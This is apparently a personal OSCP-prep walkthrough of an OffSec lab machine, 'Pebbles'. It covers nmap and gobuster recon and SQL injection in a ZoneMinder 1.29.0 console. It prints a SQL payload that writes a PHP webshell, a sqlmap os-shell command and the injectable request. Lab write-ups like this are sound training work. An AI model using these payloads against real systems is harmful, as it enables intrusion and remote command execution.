

**Start 19:38 02-01-2025**

---
```
Scope:
192.168.115.52
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.115.52 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux;)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
3305/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There's 3 http ports open of which 3305 and 8080 are running an Apache and a Tomcat server  respectively.

On port 21 there's an FTP server that does *NOT* allow anonymous bind.

Let's check out port 80 for now.


# Initial Foothold

## 80/TCP - HTTP

I went to the website and found the following:


I tried to log in with `admin - admin` but got nothing. This could point to a SQLi vulnerability but let's enumerate further.

### Gobuster

Meanwhile I did a directory search using `gobuster`:


I extended my search using seclists and found a directory that I did not before.


I turned off the search and started checking the website:


It seems to be a **ZoneMinder 1.29.0** console, now that we have a version and service we can do some digging for PoC's.


My guess was partially correct, it does appear to be a SQLi exploit. Let's check it out.


Let's try to exploit it

### Burpsuite - Manual Exploitation

I went into burp and tried the ready made payload to test it out:



it was indeed injectable so that was good. Now it was time to utilize this to give ourselves a webshell.

Since **port 3305** is running a default Apache web page, located in `/var/www/html` we could go ahead and put a webshell there:

```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”
```


>[!fail]
>This approach ultimately kept on failing for whatever reason and thus I decided to use SQLmap.
>


### SQLmap - Automated Exploitation

I went ahead and launched `sqlmap` and let it do it's thing for a while:

```bash
sqlmap http://192.168.115.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```

>[!note]
>Eventhough automated  SQL tools are *NOT* allowed on the exam, OffSec still encourages to use sqlmap for this machine.

>[!fail] 
>This also just kept on failing, I looked everywhere and could not understand why as everyone else just got a shell, but for me the `> os-shell` only kept returning `No output`.

I then slightly modified the POST request and retested it and found out that this time it did work, the shell however is painfully slow.

```bash
POST /zm/index.php HTTP/1.1
Host: 192.168.196.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```


Because the shell was so painstakingly slow I tried to upload `nc` to get a reverse shell, however eventhough the upload worked it would not launch a reverse shell:


### proof.txt

So since this didn't work I just decided to use `cat /root/proof.txt` in order to get the flag.


>[!summary]
>1) We found a **ZoneMinder** console of version 1.29.0 which was vulnerable to SQLi
>2) We tried manually exploiting it with no luck
>3) We also exploited it using `sqlmap` 
>4) We were *NOT* able to get a reverse shell via `sqlmap` for unknown reasons

---

**Finished 09:33 03-01-2025**

[^Links]: [[OSCP Prep]] 

#SQLi #burpsuite #ZoneMinder 